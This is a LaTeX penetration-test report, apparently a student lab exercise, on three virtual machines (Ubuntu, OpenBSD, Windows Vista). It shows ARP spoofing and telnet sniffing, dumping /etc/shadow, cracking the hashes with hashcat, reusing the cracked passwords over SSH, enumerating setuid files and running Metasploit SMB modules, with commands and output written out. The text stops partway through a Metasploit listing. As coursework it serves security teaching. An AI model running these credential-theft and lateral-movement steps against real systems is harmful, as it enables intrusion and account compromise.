\section{Technical Summary}

\begin{table}[h]
\begin{tabular}{|l|p{10.5cm}|} 
\hline
\multicolumn{2}{|l|}{OS Security issues discovered}                              \\ \hline
\multirow{2}{*}{\textbf{File System Security}} & Some users where found to have more privileges than they really needed.      \\ \cline{2-2} 
                                               & \textit{A policy on what the users should have access to should be implemented. Risk: Medium} \\ \hline



\multirow{2}{*}{\textbf{Password Policy}} &  After compromising the stored hashed passwords, we found that the passwords generated weak hashes and could easily be cracked.    \\ \cline{2-2} 
                                               & \textit{A policy to use longer passwords and passphrases is strongly adviced. It is also recommended to enforce the policy on every system. This will make it harder to bruteforce or crack the hashed passwords in case of compromise. Risk: Medium} \\ \hline



\multirow{2}{*}{\textbf{Patching Policy}} & \textit{All the machines in the network was running outdated operating systems.}    \\ \cline{2-2} 
                                               & \textit{Operating systems should always be updated to the latest version to avoid critical vulnerabilities Risk: Medium } \\ \hline



\multirow{2}{*}{\textbf{Trust Policy}} & \textit{Some users with high privileges where found to have undesirable behavior which the penetration team were able to exploit.}    \\ \cline{2-2} 
                                               & \textit{Even users with extensive IT knowledge should not be blindly trusting. It is recommended to regularly conduct a trust review to make sure users can be trusted with their privileges. Risk: High.} \\ \hline

\end{tabular}
\end{table}

\begin{table}
\begin{tabular}{|l|p{10.5cm}|} 
\hline
\multicolumn{2}{|l|}{Web Server Security}                              \\ \hline

\multirow{2}{*}{\textbf{Patching Policy}} & \textit{The version of the web server running was found to be vulnerable to multiple exploits. These include shellshock (CVE-2014-6271), SQLi exploitation and Path Traversal exploitation. These vulnerabilities can cause high impact.}    \\ \cline{2-2} 
                                               & \textit{The web server is highly accessible from the outside, which significantly increases the threat. All vulnerabilities should be patched as soon as a patch is available. Risk: High} \\ \hline

\end{tabular}
\end{table}

\subsection{Target Identification \& Analysis}
To begin with, Group 3 identified targets on the local host-only network both passively and actively - first by sniffing traffic on the network, and then by actively scanning the network using \textit{nmap}.

\subsubsection{Passive Network Identification}
Using wireshark, traffic on the network indicated that a TELNET connection was established (or at least TELNET packets were being sent) from the host on 192.168.248.129 - this was the \textit{Ubuntu} host, or \textit{M3}. Packets were being suspiciously sent to a non-existent IP at 172.16.57.130.

\subsubsection{Active Network Identification}
Using nmap, Group 3 were able to identify the following services and ports on each host:

\paragraph{M1 - Windows Vista Business (6000)}
scan resulted in:

	\begin{table}[h]
	\begin{tabular}{|l|l|l|}
	\hline
	\textbf{Port}         & \textbf{Protocol} & \textbf{Service}  \\ \hline
	13 	&  TCP & daytime  \\ \hline
	22  & TCP & OpenSSH 5.6  \\ \hline
	37  &  TCP & time(32bit)  \\ \hline
	113  & TCP & ident  \\ \hline
	
	\end{tabular}
	\end{table}
\paragraph{M2 - OpenBSD 4.8}
scan resulted in:

	\begin{table}[h]
	\begin{tabular}{|l|l|l|}
	\hline
	\textbf{Port}         & \textbf{Protocol} & \textbf{Service}  \\ \hline
	23  &  TCP & telnetd  \\ \hline
	80   & TCP & lighttpd 1.4.26  \\ \hline
	\end{tabular}
	\end{table}

\paragraph{M3 - Ubuntu 13.04.3}
scan resulted in:

	\begin{table}[h]
	\begin{tabular}{|l|l|l|}
	\hline
	\textbf{Port}         & \textbf{Protocol} & \textbf{Service}  \\ \hline
	135 	& TCP & msrpc  \\ \hline
	139  	& TCP & netbios-ssn  \\ \hline
	445  	& TCP & netbios-ssn  \\ \hline
	49152 	& TCP & msrpc  \\ \hline
	49153 	& TCP & msrpc  \\ \hline
	49154  	& TCP & msrpc  \\ \hline
	49155  	& TCP & msrpc  \\ \hline
	49156 	& TCP & msrpc  \\ \hline
	\end{tabular}
	\end{table}

\subsection{Target Vulnerability Validation}
With the data gathered from the reconnaissance, Group 3 proceeded to see where this information could be used. The most notable target was the host sending packets to a non-existing IP, M3.
  
\subsubsection{Penetration Testing}
As the testing team began making use of the gathered information, M3 was of highest potential and was attacked first. The hosts below are placed in the order they were assessed.

\paragraph{M3 - Ubuntu 13.04.3}
This host, as mentioned above, was continuously sending TELNET packages over the network to an IP that didn't exist. To listen in on this traffic, the testing team determined to ARPSpoof to convince the host that the attacking machine was, in fact, the owner of that IP. This would then redirect the packets to the attacking machine, which would be set up to listen in on the traffic.


\includegraphics[scale=0.5]{arpspoof2.png}


\includegraphics[scale=0.5]{telnet.png}

This yielded good results, and possible usernames and passwords were identified. After compromising this box with \textit{sudo} privileges, the root password could easily be changed and the Ubuntu machine could be considered completely compromised. 


\includegraphics[scale=0.5]{pwnd.png}

After logging in, Group 3 proceeded to loot the \textit{/etc/shadow} file to gather additional information about the network. Here, we found:

\definecolor{dkbrown}{RGB}{153, 51, 51}
\definecolor{dkgreen}{RGB}{0, 128, 0}

\lstset{
  language=bash,
  numbers=left,
  numberstyle=\tiny\color{gray},
  stepnumber=1,
  numbersep=5pt,  
  backgroundcolor=\color{white},  % choose the background color. You must add \usepackage{color}
  showspaces=false,               % show spaces adding particular underscores
  showstringspaces=false,         % underline spaces within strings
  showtabs=false,                 % show tabs within strings adding particular underscores
  frame=single,                   % adds a frame around the code
  rulecolor=\color{black},        % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. commens (green here))
  tabsize=4,                      % sets default tabsize to 2 spaces
  captionpos=b,                   % sets the caption-position to bottom
  breaklines=true,                % sets automatic line breaking
  breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
  title=\lstname,
  linewidth=17.5cm, 
  basicstyle=\fontsize{8}{11}\ttfamily,
  xleftmargin=-2.75cm,
  keywordstyle=\color{blue},
}

\lstset{literate=%
{æ}{{\ae}}1
{å}{{\aa}}1
{ø}{{\o}}1
{Æ}{{\AE}}1
{Å}{{\AA}}1
{Ø}{{\O}}1
{\$}{{\textcolor{red}{\$}}}1 
         {:}{{\textcolor{red}{:}}}1
         {~}{{\textcolor{red}{\textasciitilde}}}1
}
\lstset{extendedchars=\true}
\lstset{inputencoding=ansinew}

\begin{lstlisting}[language=bash,caption={/etc/shadow}]
root:$6$x9LyUphj$3cQTGIb269GBNuKc6GER29W9Ht7NmHjMRlyeR35oTTqngQHVD4gupwzSmjhAYOc6KEyfGQ32De27SgOCNzKcE.:16371:0:99999:7:::

...

jane:$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.:16346:0:99999:7:::
telnetd:*:16346:0:99999:7:::
john:$6$4xE5VNT4$Vb0nrZ64DGZvWmEy9sUKkCaS9O5lb50WlzSIxim6ydaCVfzWJrmLuwZIPxjgw1ZDIeQB9C9jX7qb7AtiDibjo0:16346:0:99999:7:::
user:$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1:16346:0:99999:7:::
\end{lstlisting}

These hashes we saved in three separate files, named \textit{jane.wtf} and \textit{user.wtf}, to further look into.

\subparagraph{Hash Identification}
First, the hash digest algorithm had to be determined for each hash, and so we ran \textit{hashid}. At first glance these hashes look a lot like SHA512 used in Unix password creation, but as is shown clearly above, Jane's hash looks different.

\begin{lstlisting}[language=bash,caption={Identifying Jane}]
[root@battlestation cudaHashcat-1.31]# hashid -f jane.wtf
Analyzing '~/jane.wtf'
Hashes analyzed: 1
Hashes found: 1
Output written: '~/cudaHashcat-1.31/hashid_output.txt'

[root@battlestation cudaHashcat-1.31]# cat hashid_output.txt 
Analyzing '$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.'
[+] MD5 Crypt
[+] Cisco-IOS(MD5)
[+] FreeBSD MD5
\end{lstlisting}

Indeed, Jane's hash wasn't SHA512 but MD5 Crypt and ...

\begin{lstlisting}[language=bash,caption={Identifying User}]
[root@battlestation cudaHashcat-1.31]# hashid -f user.wtf
Analyzing '~/user.wtf'
Hashes analyzed: 1
Hashes found: 1
Output written: '~/cudaHashcat-1.31/hashid_output.txt'

[root@battlestation cudaHashcat-1.31]# cat hashid_output.txt 
Analyzing '$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1'
[+] SHA-512 Crypt
\end{lstlisting}

... User was indeed SHA-512 Crypt.

\definecolor{dkbrown}{RGB}{153, 51, 51}
\definecolor{dkgreen}{RGB}{0, 128, 0}

\lstset{
  language=bash,
  numbers=left,
  numberstyle=\tiny\color{gray},
  stepnumber=1,
  numbersep=5pt,  
  backgroundcolor=\color{white},  % choose the background color. You must add \usepackage{color}
  showspaces=false,               % show spaces adding particular underscores
  showstringspaces=false,         % underline spaces within strings
  showtabs=false,                 % show tabs within strings adding particular underscores
  frame=single,                   % adds a frame around the code
  rulecolor=\color{black},        % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. commens (green here))
  tabsize=4,                      % sets default tabsize to 2 spaces
  captionpos=b,                   % sets the caption-position to bottom
  breaklines=true,                % sets automatic line breaking
  breakatwhitespace=false,        % sets if automatic breaks should only happen at whitespace
  title=\lstname,
  linewidth=16cm, 
  basicstyle=\fontsize{8}{11}\ttfamily,
  xleftmargin=0cm,
  keywordstyle=\color{blue},
}

\lstset{literate=%
{æ}{{\ae}}1
{å}{{\aa}}1
{ø}{{\o}}1
{Æ}{{\AE}}1
{Å}{{\AA}}1
{Ø}{{\O}}1
{\$}{{\textcolor{red}{\$}}}1 
         {:}{{\textcolor{red}{:}}}1
         {~}{{\textcolor{red}{\textasciitilde}}}1
}
\lstset{extendedchars=\true}
\lstset{inputencoding=ansinew}
\subparagraph{Password Cracking}
Using the hashes above with the identified hashing algorithm, Group 3 ran cudaHashcat (the nvidia version of Hashcat) with the common \textit{rockyou.txt} dictionary:

\begin{lstlisting}[language=bash,caption={Cracking Jane}]
[root@battlestation cudaHashcat-1.31]# ./cudaHashcat64.bin -a 0 -m 500 ~/jane.wtf ~/Wordlists/rockyou.txt 
cudaHashcat v1.31 starting...

Device #1: GeForce GTX 570, 1279MB, 1500Mhz, 15MCU
Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 8 bits, 256 entries, 0x000000ff mask, 1024 bytes
Rules: 1
Applicable Optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c
Device #1: Kernel ./kernels/4318/m00500.sm_20.64.ptx
Device #1: Kernel ./kernels/4318/bzero.64.ptx

Cache-hit dictionary stats ~/Wordlists/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace

$1$a0rCbP9/$1FKr5sobP4rQHxuTA/l/p.:pissoff
\end{lstlisting}


\begin{lstlisting}[language=bash,caption={Cracking User}]
[root@battlestation cudaHashcat-1.31]# ./cudaHashcat64.bin -a 0 -m 1800 ~/user.wtf ~/Wordlists/rockyou.txt 
cudaHashcat v1.31 starting...

Device #1: GeForce GTX 570, 1279MB, 1500Mhz, 15MCU
Device #1: WARNING! Kernel exec timeout is not disabled, it might cause you errors of code 702

Hashes: 1 hashes; 1 unique digests, 1 unique salts
Bitmaps: 8 bits, 256 entries, 0x000000ff mask, 1024 bytes
Rules: 1
Applicable Optimizers:
* Zero-Byte
Watchdog: Temperature abort trigger set to 90c
Watchdog: Temperature retain trigger set to 80c
Device #1: Kernel ./kernels/4318/m01800.sm_20.64.ptx
Device #1: Kernel ./kernels/4318/bzero.64.ptx

Cache-hit dictionary stats ~/Wordlists/rockyou.txt: 139921497 bytes, 14343296 words, 14343296 keyspace

$6$Jp01V0lm$RX7eMjNIIoCnazLNEtSAe5Uq.nQINXMOpEggvRtTEV63QEMUEpmwFMJhYzQtLT/M33Kbl5Mhr59tPJbvN/u4k1:summer
\end{lstlisting}

With some luck and a good wordlist, both hashes were cracked and the passwords were identified both for \textit{jane} and \textit{user}.

\begin{enumerate}
	\item Jane's password: \textit{pissoff}
	\item User's password: \textit{summer}
\end{enumerate}

Very fitting, as that's precisely what summer is doing right now.

\paragraph{M2 - OpenBSD 4.8}
Having been able to log in as \textit{john} on the Ubuntu box above, Group 3 proceeded to attempt logging in through the SSH daemon listening on port 22 of the OpenBSD host with the other usernames. 

\begin{lstlisting}[language=bash,caption={SSH'ing into OpenBSD}]
root@battlestation:~# ssh jane@192.168.248.130
jane@192.168.248.130's password: 
Last login: Wed Oct 29 18:13:59 2014
Hi - congratulations on the login!
Well played!
Can you evolve and get more useful access here?
 - L
$
\end{lstlisting}

Indeed, user didn't work - but Jane did. Now that access has been gained, the next step should be to have a look around. As Les Stroud in Survivorman said, when you set up camp in unknown territory (this BSD box), it's always a good plan to make a map for yourself. Scout the area, mark the landmarks -- maybe it won't be exact, but it'll guide you in the future. Let's listen to Survivorman and do exactly that!

First of all -- \textbf{where am I?}
\begin{lstlisting}[language=bash,caption={Where are we standing?}]
$ uname -a
OpenBSD m2.localdomain 4.8 GENERIC#136 i386
\end{lstlisting}

Second ... \textbf{What's going on here?} 

\begin{lstlisting}[language=bash,caption={What's going on here?}]
$ ps aux
USER       PID %CPU %MEM   VSZ   RSS TT  STAT  STARTED       TIME COMMAND
root         1  0.0  0.1   392   312 ??  Is    Tue06AM    0:00.01 /sbin/init
_dhcp     5637  0.0  0.1   392   372 ??  Is    Tue06AM    0:00.44 dhclient: vic
root     20526  0.0  0.3   480   688 ??  Is    Tue06AM    0:00.01 syslogd: [pri
_syslogd  7494  0.0  0.3   512   752 ??  I     Tue06AM    0:00.49 syslogd -a /v
root      7692  0.0  0.2   504   408 ??  Is    Tue06AM    0:00.01 pflogd: [priv
_pflogd   4907  0.0  0.1   568   312 ??  S     Tue06AM    0:09.07 pflogd: [runn
root     21096  0.0  0.5   812  1188 ??  Is    Tue06AM    0:00.03 /usr/sbin/ssh
root     12289  0.0  0.3   504   732 ??  Is    Tue06AM    0:00.01 inetd
root     13869  0.0  0.3   528   788 ??  Ss    Tue06AM    0:00.33 cron
root      2343  0.0  0.7  1144  1856 ??  Ss    Tue06AM    0:03.82 sendmail: acc
root     19989  0.0  1.0  3396  2560 ??  Is     6:51PM    0:00.05 sshd: jane [p
jane     19099  0.0  0.8  3368  1984 ??  S      6:51PM    0:00.87 sshd: jane@tt
jane     20266  0.0  0.2   484   456 p0- I     Tue03PM    0:00.10 /bin/sh /bin/
jane      3901  0.0  0.2   452   440 p0  Ss     6:51PM    0:00.05 -ksh (ksh)
jane     14796  0.0  0.1   388   208 p0  R+     7:15PM    0:00.01 ps -aux
root     22269  0.0  0.1   344   308 C0- I     Tue06AM    0:00.26 dhclient: vic
jane     30041  0.0  0.2   428   432 C0  Is+   Tue06AM    0:00.10 -ksh (ksh)
$
\end{lstlisting}

And third ... \textbf{Who else is here?}

\begin{lstlisting}[language=bash,caption={Who lives here?}]
$ cat /etc/passwd                                                              
root:*:0:0:Charlie &:/root:/bin/ksh
...
john:*:1000:10:John:/home/john:/bin/ksh
jane:*:1001:1001:Jane:/home/jane:/bin/ksh
tarzan:*:1002:1002:John Clayton III:/home/tarzan:/bin/ksh
$
\end{lstlisting}

That's interesting: John is here too. And Tarzan, Jane's Romeo? Proceeding to check their privileges, john seems like a Person of Interest:


\begin{lstlisting}[language=bash,caption={Who's the boss?}]
$ cat /etc/group                                                               
wheel:*:0:root,john
...
kmem:*:2:root
sys:*:3:root
tty:*:4:root
operator:*:5:root
...
staff:*:20:root
...
sshd:*:27:
...
guest:*:31:root
...
jane:*:1001:
tarzan:*:1002:
$ 
\end{lstlisting}

One very interesting group was identified here, \textit{wheel}, which only \textit{root} and \textit{john} seem to be members of - and this is the \textit{sudo}ers group. Thus, maybe their \textit{/home/}'s should be searched.

\begin{lstlisting}[language=bash,caption={Searching through John's and Tarzan's /home/}]
$ ls -la /home/tarzan
total 32
drwxr-xr-x  3 tarzan  tarzan  512 Oct  3 21:54 .
drwxr-xr-x  5 root    wheel   512 Oct  3 21:54 ..
-rw-r--r--  1 tarzan  tarzan   22 Oct  3 21:54 .Xdefaults
-rw-r--r--  1 tarzan  tarzan  773 Oct  3 21:54 .cshrc
-rw-r--r--  1 tarzan  tarzan  398 Oct  3 21:54 .login
-rw-r--r--  1 tarzan  tarzan  113 Oct  3 21:54 .mailrc
-rw-r--r--  1 tarzan  tarzan  218 Oct  3 21:54 .profile
drwx------  2 tarzan  tarzan  512 Oct  3 21:54 .ssh
$ ls -la /home/john
total 32
drwxr-xr-x  3 john  users  512 Oct  3 21:02 .
drwxr-xr-x  5 root  wheel  512 Oct  3 21:54 ..
-rw-r--r--  1 john  users   22 Aug 16  2010 .Xdefaults
-rw-r--r--  1 john  users  773 Aug 16  2010 .cshrc
-rw-r--r--  1 john  users  398 Aug 16  2010 .login
-rw-r--r--  1 john  users  113 Aug 16  2010 .mailrc
-rw-r--r--  1 john  users  218 Aug 16  2010 .profile
drwx------  2 john  users  512 Oct  3 21:04 .ssh
$
\end{lstlisting}

Luckily for them, but unlucky for the testing team, the \textit{.ssh} directories were inaccessible. But, as the \textit{/etc/passwd} showed, it looks like Tarzan is \textit{actually} called John Clayton III. So, maybe John \textit{is} Tarzan?

This spawned 3 separate ideas:

\begin{enumerate}
	\item Maybe tarzan has John's password?
	\item Maybe john has the same password as on Ubuntu (M3)?
	\item Maybe tarzan has the \textit{other} thing printed in Ubuntu's TCP distress signal?
\end{enumerate}

Recall:
\begin{lstlisting}[language=bash,caption={Flashback to dsniff}]
root@battlestation:~# dsniff -t 23/tcp=telnet
dsniff: listening on eth0
-------------
10/28/14 03:31:48 tcp 172.16.57.129.27008 -> 172.16.57.130.23 (telnet)
john
meTarzanSuperUser
sudo su +
meTarzanSuperUser
AiAiAi....
\end{lstlisting}

Unfortunately, both \textit{sudo su +} and \textit{AiAiAi....} were followed by strange (possibly unicode) characters unrecognizable to the terminal (could possibly be newlines).

The testing team proceeded to try logging in using these details again:

\begin{lstlisting}[language=bash,caption={Logging in as tarzan}]
$ login tarzan
Password: [meTarzanSuperUser]
Login incorrect
$ Login tarzan
Password: [AiAiAi....]
Login incorrect
\end{lstlisting}

Dead end. 

\begin{lstlisting}[language=bash,caption={Logging in as john}]
$ login john
Password: [meTarzanSuperUser
Login incorrect
$ login john
Password: [AiAiAi....]
Login incorrect
\end{lstlisting}

Since logging in turned out to be unsuccessful, although worth a try, the testing team proceeded to document what areas of the system was world writeable, or group writeable:
\begin{lstlisting}[language=bash,caption={Where can we go?}]
$ find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -ldoha {} \;
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/obj
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/src
drwxrwxr-x  2 root  wsrc  -  512B Aug 16  2010 /usr/xobj
drwxrwxrwt  2 root  wheel  -  512B Oct 29 01:30 /tmp
drwxrws---  2 root  wheel  -  512B Aug 16  2010 /var/audit
drwxrwx---  2 root  authpf  -  512B Aug 16  2010 /var/authpf
drwxrwx---  2 root  wheel  -  512B Oct  3 21:02 /var/crash
drwxrwx--T  2 root  crontab  -  512B Aug 16  2010 /var/cron/atjobs
drwx-wx--T  2 root  crontab  -  512B Oct 28 06:07 /var/cron/tabs
drwxrwxr-x  5 root  games  -  512B Oct  3 21:02 /var/games
drwxrwxr-x  3 root  games  -  512B Aug 16  2010 /var/games/hackdir
drwxrwx---  2 root  games  -  512B Aug 16  2010 /var/games/hackdir/save
drwxrwxr-x  2 root  games  -  512B Aug 16  2010 /var/games/phantasia
drwxrwxr-x  2 root  games  -  512B Aug 16  2010 /var/games/save
drwxrwxr-x  2 root  named  -  512B Aug 16  2010 /var/named/tmp
drwxrwxr-x  2 root  named  -  512B Aug 16  2010 /var/named/slave
drwxrwx---  2 smmsp  smmsp  -  512B Oct 29 01:30 /var/spool/clientmqueue
drwxrwxr-t  2 uucp  dialer  -  512B Aug 16  2010 /var/spool/lock
drwxrwxr-x  2 root  daemon  -  512B Aug 16  2010 /var/spool/output
drwxrwxr-t  2 uucp  daemon  -  512B Aug 16  2010 /var/spool/uucppublic
drwxrwxrwt  3 root  wheel  -  512B Aug 16  2010 /var/tmp
drwxrwxrwt  2 root  wheel  -  512B Oct 28 18:58 /var/tmp/vi.recover
$ 
\end{lstlisting}

Having identified these directories, an idea was conceived that perhaps if a running program with the \textit{setuid} bit set could be instructed to run a script, the testing team would be able to escalate their privileges. Thus, the next step was finding out where this bit was set:

\begin{lstlisting}[language=bash,caption={Can we hitch a ride?}]
$ find / -user root -perm -4000 -exec ls -ldoh {} \;
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chfn
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chpass
-r-sr-xr-x  3 root  bin  - 24.4K Aug 16  2010 /usr/bin/chsh
-r-sr-sr-x  1 root  daemon  - 23.6K Aug 16  2010 /usr/bin/lpr
-r-sr-sr-x  1 root  daemon  - 22.1K Aug 16  2010 /usr/bin/lprm
-r-sr-xr-x  1 root  bin  - 26.2K Aug 16  2010 /usr/bin/passwd
-r-sr-xr-x  1 root  bin  - 10.1K Aug 16  2010 /usr/bin/rsh
-r-sr-xr-x  1 root  bin  - 14.6K Aug 16  2010 /usr/bin/su
-r-sr-xr-x  2 root  bin  -  123K Aug 16  2010 /usr/bin/sudo
-r-sr-xr-x  2 root  bin  -  123K Aug 16  2010 /usr/bin/sudoedit
-r-sr-xr-x  1 root  bin  -  9.8K Aug 16  2010 /usr/libexec/lockspool
-r-sr-xr-x  1 root  bin  -  164K Aug 16  2010 /usr/libexec/ssh-keysign
-r-sr-sr-x  2 root  authpf  - 21.9K Aug 16  2010 /usr/sbin/authpf
-r-sr-sr-x  2 root  authpf  - 21.9K Aug 16  2010 /usr/sbin/authpf-noip
-r-sr-x---  1 root  network  -  391K Aug 16  2010 /usr/sbin/ppp
-r-sr-x---  1 root  network  -  106K Aug 16  2010 /usr/sbin/pppd
-r-sr-x---  1 root  network  - 10.4K Aug 16  2010 /usr/sbin/sliplogin
-r-sr-xr-x  1 root  bin  -  181K Aug 16  2010 /usr/sbin/traceroute
-r-sr-xr-x  1 root  bin  -  181K Aug 16  2010 /usr/sbin/traceroute6
-r-sr-xr-x  1 root  bin  -  210K Aug 16  2010 /sbin/ping
-r-sr-xr-x  1 root  bin  -  226K Aug 16  2010 /sbin/ping6
-r-sr-x---  1 root  operator  -  194K Aug 16  2010 /sbin/shutdown
\end{lstlisting}

Additionally, a scan was also performed to identify what directories and files were readable, but as the list was very exhaustive, the most interesting outcomes of said scan were some readable files in the \textit{/var/log} directory; and the configuration files in \textit{/etc/}.

After checking the \textit{sshd} configuration file, Group 3 identified only one modified line:

\begin{lstlisting}[language=bash,caption={Can we hitch a ride?}]
$ cat /etc/ssh/sshd_config                                                     
...
# override default of no subsystems
Subsystem       sftp    /usr/libexec/sftp-server
...
$ 
\end{lstlisting}

Because SSHD runs as root, an idea was that if we could modify /usr/libexec/sftp-server to point to a script that would first add Jane to the \textit{wheel} group and then pass on any arguments to the real file, this would be executed with root permissions. 

Another idea was to run sshd as jane on a separate port, with a custom configuration file where we could exploit the otherwise false positive identified by OpenVAS (OpenSSH set\_child\_env exploit), but this was never attempted. 
 

\paragraph{M1 - Windows Vista Business (6000)}
had only one \textbf{High} rated vulnerability returned from the OpenVAS scan, and this was a SMB vulnerability. This vulnerability is a Denial of Service one, but that \textit{could} be used for Remote Code Execution. Using the Ruby scripts found on http://www.hexale.org/advisories/OCHOA-2010-0209.txt, a dead-end was reached when it required a logged in user on the Vista machine to open a HTML page and thus connect back to the attacking machine to sign the nonces.

Had a user been logged in and performed any web requests, perhaps \textit{ARP poisoning} or \textit{DNS poisoning} had been possible to achieve this. Several exploits seem to exist for Vista SP1, but this Vista is Service Pack 0.

The testing team decided to still follow up on the SMB trail as this was the only window to get in through, it seemed.

\subparagraph{Enumerating shares}


\begin{lstlisting}[language=bash,caption={Enumerating shares}]
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > show options

Module options (auxiliary/scanner/smb/smb_enumshares):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LogSpider        3                no        0 = disabled, 1 = CSV, 2 = table (txt), 3 = one liner (txt) (accepted: 0, 1, 2, 3)
   MaxDepth         999              yes       Max number of subdirectories to spider
   RHOSTS                            yes       The target address range or CIDR identifier
   SMBDomain        WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                           no        The password for the specified username
   SMBUser                           no        The username to authenticate as
   ShowFiles        false            yes       Show detailed information when spidering
   SpiderProfiles   true             no        Spider only user profiles when share = C$
   SpiderShares     false            no        Spider shares recursively
   THREADS          1                yes       The number of concurrent threads
   USE_SRVSVC_ONLY  false            yes       List shares only with SRVSVC

msf auxiliary(smb_enumshares) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumshares) > set THREADS 20
THREADS => 20
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[*] 192.168.248.131:445 - No shares collected
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_enumshares) > set SMBDomain __MSBROWSE__
SMBDomain => __MSBROWSE__
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[*] 192.168.248.131:445 - No shares collected
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\subparagraph{Using previously collected credentials}
Since Group 3 had some information harvested from the compromised machine, the next logical step was to apply those. Jane had already proved somewhat successful on the OpenBSD machine, so for the Windows machine, User's credentials (password: summer) was used.

\begin{lstlisting}[language=bash,caption={Logging in}]
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
